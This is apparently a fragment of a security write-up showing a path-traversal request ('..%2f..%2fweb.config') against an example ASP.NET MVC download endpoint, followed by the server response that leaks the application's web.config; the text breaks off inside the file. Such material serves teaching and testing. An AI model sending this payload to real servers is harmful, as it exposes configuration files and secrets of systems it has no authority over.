   
Request:

GET /download\_page?id=**..%2f..%2fweb.config** HTTP/1.1  
Host: example-mvc-application.minded  
\[...\]

  
Response:

HTTP/1.1 200 OK  
\[...\]

<?xml version="1.0" encoding="utf-8"?>

<configuration>  
  <configSections>  
    <section name="entityFramework" type="System.Data.Entity.Internal.ConfigFile.EntityFrameworkSection, EntityFramework, Version=6.0.0.0, Culture=neutral" requirePermission="false" />  
  </configSections>  
  <appSettings>  
    <add key="webpages:Version" value="3.0.0.0" />  
    <add key="webpages:Enabled" value="false" />  
    <add key="ClientValidationEnabled" value="true" />  
    <add key="UnobtrusiveJavaScriptEnabled" value="true" />  
  </appSettings>  
<system.web>  
  <authentication mode="None" />  
  <compilation debug="true" targetFramework="4.6.1" />  
  <httpRuntime targetFramework="4.6.1" />  
</system.web>  
<system.webServer>  
  <modules>  
    <remove name="FormsAuthentication" />  
  </modules>  
</system.webServer>  
<runtime>  
  <assemblyBinding xmlns="urn:schemas-microsoft-com:asm.v1">  
    <dependentAssembly>  
      <**assemblyIdentity** name="Microsoft.Owin.Security" />  
      <bindingRedirect oldVersion="1.0.0.0-3.0.1.0" newVersion="3.0.1.0" />  
    </dependentAssembly>  
    <dependentAssembly>  
      <**assemblyIdentity** name="Microsoft.Owin.Security.OAuth" />  
      <bindingRedirect oldVersion="1.0.0.0-3.0.1.0" newVersion="3.0.1.0" />  
    </dependentAssembly>  
    <dependentAssembly>  
      <**assemblyIdentity** name="Microsoft.Owin.Security.Cookies" />  
      <bindingRedirect oldVersion="1.0.0.0-3.0.1.0" newVersion="3.0.1.0" />  
    </dependentAssembly>  
    <dependentAssembly>  
      <**assemblyIdentity** name="Microsoft.Owin" />  
      <bindingRedirect oldVersion="1.0.0.0-3.0.1.0" newVersion="3.0.1.0" />  
    </dependentAssembly>  
    <dependentAssembly>  
      <**assemblyIdentity** name="Newtonsoft.Json" culture="neutral" />  
      <bindingRedirect oldVersion="0.0.0.0-6.0.0.0" newVersion="6.0.0.0" />  
    </dependentAssembly>  
    <dependentAssembly>  
      <**assemblyIdentity** name="System.Web.Optimization" />  
      <bindingRedirect oldVersion="1.0.0.0-1.1.0.0" newVersion="1.1.0.0" />  
    </dependentAssembly>  
    <dependentAssembly>  
      <**assemblyIdentity** name="WebGrease" />  
      <bindingRedirect oldVersion="0.0.0.0-1.5.2.14234" newVersion="1.5.2.14234" />  
    </dependentAssembly>  
    <dependentAssembly>  